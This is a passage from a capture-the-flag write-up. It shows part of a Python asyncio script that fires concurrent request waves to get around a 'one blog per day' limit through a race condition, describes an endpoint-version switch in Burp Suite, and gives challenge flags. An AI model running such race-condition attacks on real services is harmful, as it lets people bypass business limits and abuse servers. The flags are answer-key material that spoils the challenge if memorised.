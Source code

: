 ```python
    
    # Small delay to ensure all tasks are waiting on the event.
    await asyncio.sleep(0.1)
    # Release all tasks to send their request concurrently.
    start_event.set()
    
    results = await asyncio.gather(*tasks)
    successes = []
    for i, status, text in results:
        # If the response text does not include the rejection message, consider it a success.
        if "Only one blog per day" not in text:
            successes.append((i, status, text))
    
    print(f"Wave {wave_number}: {len(successes)} successes out of {NUM_REQUESTS_PER_WAVE} requests")
    return successes

async def main():
    success_entries = []
    wave = 1
    async with aiohttp.ClientSession() as session:
        while len(success_entries) < 5:
            successes = await run_wave(session, wave)
            success_entries.extend(successes)
            print(f"Total successes so far: {len(success_entries)}")
            wave += 1
            # Optional delay between waves to avoid flooding the server
            await asyncio.sleep(0.5)
    
    print(f"\n--- Achieved {len(success_entries)} successful blog posts ---")
    for entry in success_entries:
        print(f"Request {entry[0]}: Status {entry[1]} - {entry[2]}")

if __name__ == "__main__":
    asyncio.run(main())
```

The reward provided a YouTube link: [https://youtu.be/WePNs-G7puA?si=DOUFW9vAgUKdClxX](https://youtu.be/WePNs-G7puA?si=DOUFW9vAgUKdClxX)

When looking at burp request we had endpoint `/api/v1/addBlog` initially, after creating 5 blogs, we got another another endpoint, `/api/v2/gift` . This was vague but hard to notice so we were stuck for a while. Then we got the flag after making the endpoint `/api/v1/gift` and sent the request through burp-suite. 

## Challenge: Seo Ceo

### Flag: **apoorvctf{s30_1snT_0pt1onaL}**

In this challenge, we found 2 files robots.txt and sitemap.xml. we had a fake flag in robots.txt.
